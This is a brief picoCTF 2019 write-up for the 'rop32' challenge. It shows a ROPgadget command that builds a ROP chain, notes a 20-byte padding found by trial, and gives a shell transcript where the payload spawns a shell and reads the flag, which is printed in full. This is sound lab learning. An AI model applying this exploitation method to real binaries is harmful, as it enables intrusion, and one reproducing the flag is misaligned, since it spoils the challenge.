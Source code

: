 # rop32
#### Can you exploit the following [program](https://2019shell1.picoctf.com/static/c0091019426d9188e6791d4920a20ee2/vuln) to get a flag? You can find the program in /problems/rop32_3_f3a10b5fa410146f5328fb7b3e63e7c0 on the shell server. Source.

I solved this after the competition ended.

We can use an automatic tool to solve rop problems. Running ROpgadget with the following command
```
ROPgadget --binary ./vuln --ropchain --badbytes "0a"
```
Results in a python script that generates our payload. We set badbytes to '0a' because our shellcode breaks when it is contained in it.
We still have to figure out the padding, I tried out values until I didn't get a segmentation fault. The right amount of padding was 20 bytes.
Running the following command with rop.py, which is contained in the file above, results in the flag.
```
Supermac30@pico-2019-shell1:/problems/rop32_3_f3a10b5fa410146f5328fb7b3e63e7c0$ (python ~/rop.py;cat) | ./vuln
Can you ROP your way out of this one?
cat flag.txt
picoCTF{rOp_t0_b1n_sH_cb4c373e}
```

Flag: picoCTF{rOp_t0_b1n_sH_cb4c373e}

